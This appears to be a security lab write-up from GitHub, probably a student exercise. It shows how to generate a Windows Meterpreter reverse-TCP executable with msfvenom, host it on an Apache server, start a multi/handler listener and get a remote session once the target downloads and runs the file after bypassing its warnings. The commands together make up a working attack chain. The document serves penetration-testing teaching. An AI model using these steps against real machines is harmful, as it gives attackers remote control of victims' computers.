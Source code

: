 ### PROGRAM:

Find the attackers ip address using ifconfig

<img width="763" height="317" alt="image" src="https://github.com/user-attachments/assets/be7961f0-228b-4d39-b411-7b0cf2b2e68e" />


### Output:



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

copy the fun.exe into the apache ```/var/www/html ```folder

<img width="896" height="122" alt="image" src="https://github.com/user-attachments/assets/71f287b1-6f97-4401-90ee-ac5b1d89b039" />


### Output:


Start apache server ```sudo systemctl apache2 start``` 

<img width="629" height="40" alt="image" src="https://github.com/user-attachments/assets/0f567f02-8372-473b-8d3e-81d95c8853cf" />


Check the status of apache2 ```sudo apache2 status```

<img width="945" height="402" alt="image" src="https://github.com/user-attachments/assets/476dfe5d-d251-4da4-a5e4-5bf76ab90c20" />


Invoke msfconsole:

<img width="904" height="509" alt="image" src="https://github.com/user-attachments/assets/3369b1ec-fc04-45a7-a8c4-267eae4fa2a5" />


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="878" height="337" alt="image" src="https://github.com/user-attachments/assets/5b7c2cea-9705-4c32-b7a5-5c0e99f90547" />



Starting a command and control Server
```use multi/handler```
```set PAYLOAD windows/meterpreter/reverse_tcp``` 
```set LHOST 0.0.0.0```
```exploit```

<img width="801" height="126" alt="image" src="https://github.com/user-attachments/assets/b33daa09-bf1d-4ca9-8296-562969dee685" />


### Output 


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

```